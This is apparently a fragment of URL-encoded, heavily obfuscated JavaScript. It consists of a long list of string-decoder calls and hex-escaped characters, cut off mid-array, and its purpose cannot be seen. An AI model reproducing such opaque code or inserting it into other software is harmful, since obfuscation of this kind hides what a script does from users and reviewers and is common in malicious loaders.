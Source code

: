 x2b1)%2BD(0x2f2)%2B'%5Cx69'%2CD(0x38a)%2BD(0x27e)%2CD(0x2a8)%2B'%5Cx33'%2CD(0x437)%2BD(0x3ac)%2B'%5Cx6d'%2CD(0x460)%2BD(0x444)%2B'%5Cx4b'%2CD(0x24a)%2BD(0x341)%2BD(0x1f9)%2B'%5Cx71'%2CD(0x3e8)%2B'%5Cx39'%2CD(0x29b)%2B'%5Cx4e'%2CD(0x456)%2BD(0x273)%2BD(0x28e)%2B'%5Cx65%5Cx43'%2CD(0x412)%2BD(0x3fc)%2BD(0x27a)%2B'%5Cx71'%2CD(0x418)%2BD(0x405)%2B'%5Cx61'%2CD(0x334)%2BD(0x27f)%2B'%5Cx53%5Cx43'%2CD(0x32c)%2BD(0x207)%2B'%5Cx75'%2CD(0x44c)%2BD(0x462)%2B'%5Cx65'%2CD(0x2aa)%2BD(0x212)%2BD(0x36c)%2B'%5Cx50%5Cx34'%2CD(0x2d6)%2BD(0x469)%2B'%5Cx65'%2CD(0x322)%2BD(0x3b0)%2B'%5Cx43'%2CD(0x249)%2BD(0x410)%2BD(0x209)%2B'%5Cx47'%2CD(0x2b9)%2BD(0x38b)%2BD(0x2cd)%2BD(0x2c0)%2B'%5Cx49%5Cx57'%2CD(0x47b)%2BD(0x348)%2B'%5Cx71'%2CD(0x283)%2BD(0x2a0)%2BD(0x43e)%2BD(0x22e)%2BD(0x45f)%2BD(0x2bf)%2BD(0x396)%2BD(0x261)%2BD(0x36d)%2B'%5Cx57'%2CD(0x270)%2BD(0x3f8)%2BD(0x453)%2B'%5Cx4f%5Cx71'%2CD(0x279)%2BD(0x39b)%2CD(0x230)%2BD(0x40c)%2BD(0x25d)%2BD(0x41c)%2CD(0x365)%2B'%5Cx32'%2CD(0x47a)%2BD(0x2be)%2B'%5Cx58%5Cx68'%2CD(0x3e9)%2BD(0x41d)%2B'%5Cx69'%2CD(0x3b8)%2BD(0x372)%2B'%5Cx43'%2CD(0x3bd)%2BD(0x2e7)%2B'%5Cx75'%2CD(0x3bc)%2BD(0x29f)%2B'%5Cx4b%5Cx72'%2CD(0x201)%2BD(0x24c)%2BD(0x3b7)%2B'%5Cx47'%2CD(0x29e)%2BD(0x405)%2B'%5Cx61'%2CD(0x2b4)%2BD(0x304)%2B'%5Cx34%5Cx50'%2CD(0x3fa)%2BD(0x3a1)%2BD(0x329)%2B'%5Cx52%5Cx43'%2CD(0x39d)%2B'%5Cx55'%2CD(0x213)%2BD(0x2b6)%2BD(0x3da)%2B'%5Cx4f%5Cx71'%2CD(0x446)%2BD(0x20b)%2BD(0x395)%2BD(0x293)%2BD(0x353)%2B'%5Cx34'%2CD(0x393)%2BD(0x202)%2BD(0x457)%2BD(0x2e9)%2BD(0x43c)%2BD(0x46f)%2BD(0x33d)%2B'%5Cx57'%2CD(0x2bb)%2BD(0x2ed)%2B'%5Cx6d'%2CD(0x35f)%2BD(0x234)%2BD(0x23a)%2B'%5Cx51%5Cx53'%2CD(0x431)%2BD(0x35d)%2B'%5Cx57'%2CD(0x1f7)%2BD(0x447)%2B'%5Cx75'%2CD(0x41e)%2BD(0x1df)%2BD(0x1e2)%2B'%5Cx51%5Cx71'%2CD(0x25f)%2BD(0x459)%2BD(0x1f5)%2BD(0x29c)%2CD(0x39d)%2BD(0x2e3)%2B'%5Cx6d'%2CD(0x389)%2BD(0x355)%2BD(0x30b)%2B'%5Cx47'%2CD(0x42d)%2BD(0x3ae)%2B'%5Cx34%5Cx2f'%2CD(0x312)%2BD(0x415)%2BD(0x26e)%2BD(0x3eb)%2CD(0x25a)%2BD(0x449)%2BD(0x2e8)%2BD(0x375)%2BD(0x33f)%2BD(0x3d0)%2CD(0x3d8)%2BD(0x3f1)%2B'%5Cx34'%2CD(0x44b)%2BD(0x3be)%2B'%5Cx38'%2CD(0x471)%2BD(0x216)%2B'%5Cx38'%2CD(0x235)%2BD(0x1db)%2B'%5Cx71%5Cx65'%2CD(0x3f4)%2BD(0x41f)%2B'%5Cx47'%2CD(0x339)%2BD(0x3f6)%2B'%5Cx71'%2CD(0x3bd)%2BD(0x2a3)%2B'%5Cx65'%2CD(0x326)%2BD(0x285)%2B'%5Cx6d'%2CD(0x470)%2BD(0x432)%2B'%5Cx34'%2CD(0x3a3)%2BD(0x442)%2B'%5Cx43'%2CD(0x262)%2BD(0x321)%2B'%5Cx38'%2CD(0x2ef)%2BD(0x2f3)%2BD(0x333)%2B'%5Cx4f%5Cx4b'%2CD(0x47b)%2BD(0x3d1)%2B'%5Cx4b'%2CD(0x316)%2BD(0x411)%2B'%5Cx34'%2CD(0x408)%2BD(0x247)%2BD(0x473)%2BD(0x2c9)%2CD(0x42f)%2BD(0x1d9)%2BD(0x3ff)%2B'%5Cx51%5Cx75'%2CD(0x414)%2BD(0x282)%2B'%5Cx47'%2CD(0x21a)%2BD(0x3aa)%2CD(0x3ab)%2BD(0x21b)%2B'%5Cx43'%2CD(0x21d)%2BD(0x34b)%2B'%5Cx69'%2CD(0x1da)%2BD(0x2c1)%2B'%5Cx39%5Cx48'%2CD(0x22f)%2BD(0x1ef)%2B'%5Cx6d'%2CD(0x477)%2BD(0x445)%2B'%5Cx61'%2CD(0x2b9)%2BD(0x2b8)%2BD(0x256)%2B'%5Cx66%5Cx6d'%2CD(0x320)%2BD(0x313)%2BD(0x267)%2B'%5Cx37%5Cx61'%2CD(0x2bc)%2BD(0x1ef)%2B'%5Cx71'%2CD(0x2a7)%2BD(0x1eb)%2BD(0x3d4)%2BD(0x2b7)%2CD(0x2e1)%2BD(0x39e)%2BD(0x467)%2B'%5Cx52%5Cx53'%2CD(0x300)%2BD(0x2fc)%2BD(0x26b)%2B'%5Cx51%5Cx75'%2CD(0x475)%2BD(0x3a0)%2BD(0x2a9)%2BD(0x32b)%2CD(0x302)%2B'%5Cx4e'%2CD(0x356)%2BD(0x3c9)%2B'%5Cx43'%2CD(0x20c)%2BD(0x33b)%2BD(0x33a)%2BD(0x23c)%2CD(0x3c3)%2BD(0x3e1)%2B'%5Cx69'%2CD(0x3b8)%2BD(0x346)%2B'%5Cx6d'%2CD(0x3f9)%2BD(0x219)%2BD(0x361)%2BD(0x260)%2B'%5Cx4b%5Cx61'%2CD(0x3cc)%2BD(0x46a)%2CD(0x24f)%2BD(0x2c3)%2B'%5Cx53'%2CD(0x2b1)%2BD(0x38e)%2B'%5Cx57'%2CD(0x40a)%2BD(0x26d)%2B'%5Cx61'%2CD(0x2b3)%2BD(0x390)%2B'%5Cx61'%2CD(0x1fa)%2BD(0x295)%2BD(0x39c)%2B'%5Cx47'%2CD(0x33c)%2BD(0x1f8)%2BD(0x28f)%2B'%5Cx36%5Cx53'%2CD(0x264)%2BD(0x33e)%2B'%5Cx34'%2CD(0x379)%2BD(0x3a5)%2BD(0x276)%2BD(0x2ce)%2BD(0x2cc)%2BD(0x400)%2BD(0x21e)%2BD(0x3fb)%2B'%5Cx74%5Cx61'%2CD(0x376)%2BD(0x3a6)%2B'%5Cx47%5Cx34'%2CD(0x22c)%2BD(0x2ad)%2B'%5Cx71'%2CD(0x20a)%2BD(0x478)%2BD(0x384)%2BD(0x3c4)%2CD(0x3ef)%2BD(0x1ff)%2BD(0x269)%2B'%5Cx47'%2CD(0x36b)%2BD(0x2ec)%2B'%5Cx6b%5Cx4f'%2CD(0x2e1)%2BD(0x38b)%2BD(0x464)%2BD(0x229)%2B'%5Cx4b%5Cx47'%2CD(0x45a)%2BD(0x26d)%2B'%5Cx61'%2CD(0x3b5)%2BD(0x1dd)%2BD(0x2fd)%2B'%5Cx57'%2CD(0x37c)%2BD(0x31a)%2B'%5Cx30'%2CD(0x2b1)%2B'%5Cx59'%2CD(0x21c)%2BD(0x404)%2BD(0x3e5)%2B'%5Cx34%5Cx53'%2CD(0x344)%2BD(0x278)%2BD(0x44d)%2B'%5Cx51%5Cx69'%2CD(0x360)%2BD(0x318)%2BD(0x361)%2BD(0x222)%2B'%5Cx4e%5Cx47'%2CD(0x3e9)%2BD(0x253)%2B'%5Cx69'%2CD(0x45b)%2BD(0x3f5)%2BD(0x3b2)%2B'%5Cx61'%2CD(0x3cf)%2BD(0x438)%2B'%5Cx6b%5Cx39'%2CD(0x373)%2BD(0x214)%2BD(0x314)%2BD(0x3d7)%2BD(0x3b6)%2BD(0x332)%2BD(0x22d)%2B'%5Cx48%5Cx30'%2CD(0x350)%2BD(0x2ab)%2B'%5Cx75%5Cx4f'%2CD(0x418)%2BD(0x3fd)%2B'%5Cx75'%2CD(0x3d3)%2BD(0x26f)%2B'%5Cx6f%5Cx47'%2CD(0x347)%2BD(0x244)%2B'%5Cx39%5Cx39'%2CD(0x451)%2BD(0x224)%2B'%5Cx62%5Cx6c'%2CD(0x22b)%2BD(0x35a)%2BD(0x236)%2B'%5Cx61'%2CD(0x22f)%2BD(0x231)%2CD(0x479)%2BD(0x272)%2BD(0x3b3)%2BD(0x3dd)%2CD(0x2af)%2BD(0x2f7)%2B'%5Cx38'%2CD(0x287)%2BD(0x2a1)%2BD(0x331)%2BD(0x391)%2BD(0x1dc)%2BD(0x474)%2CD(0x44c)%2B'%5Cx55'%2CD(0x42c)%2BD(0x221)%2BD(0x35b)%2BD(0x2ca)%2CD(0x414)%2BD(0x3d5)%2BD(0x307)%2BD(0x220)%2CD(0x1fc)%2BD(0x20d)%2B'%5Cx69'%2CD(0x452)%2BD(0x281)%2BD(0x3cb)%2BD(0x433)%2CD(0x21d)%2BD(0x3a7)%2B'%5Cx75'%2CD(0x398)%2B'%5Cx2f'%2CD(0x392)%2BD(0x1f1)%2BD(0x1fb)%2B'%5Cx50%5Cx75'%2CD(0x43f)%2BD(0x3a9)%2BD(0x298)%2B'%5Cx36%5Cx61'%2CD(0x364)%2BD(0x3f2)%2B'%5Cx4f'%2CD(0x25b)%2BD(0x3f7)%2BD(0x2d2)%2BD(0x238)%2CD(0x2d5)%2BD(0x3c6)%2BD(0x420)%2BD(0x429)%2BD(0x1f3)%2BD(0x2c2)%2B'%5Cx6b%5Cx41'%2CD(0x37f)%2BD(0x3c9)%2BD(0x31f)%2B'%5Cx71'%2CD(0x330)%2BD(0x250)%2BD(0x2a2)%2B'%5Cx37%5Cx69'%2CD(0x1e9)%2BD(0x30a)%2BD(0x210)%2BD(0x42a)%2BD(0x34d)%2BD(0x419)%2B'%5Cx6b%5Cx65'%2CD(0x211)%2BD(0x1fd)%2BD(0x45d)%2B'%5Cx36%5Cx53'%2CD(0x218)%2BD(0x41b)%2BD(0x30f)%2BD(0x340)%2BD(0x41a)%2BD(0x30c)%2BD(0x2e2)%2BD(0x378)%2B'%5Cx65%5Cx71'%2CD(0x421)%2BD(0x362)%2BD(0x228)%2B'%5Cx35%5Cx69'%2CD(0x34f)%2BD(0x233)%2B'%5Cx6d%5Cx49'%2CD(0x3bf)%2BD(0x46d)%2B'%5Cx6b%5Cx4e'%2CD(0x306)%2BD(0x454)%2B'%5Cx71'%2CD(0x461)%2BD(0x343)%2B'%5Cx4f%5Cx42'%5D%3B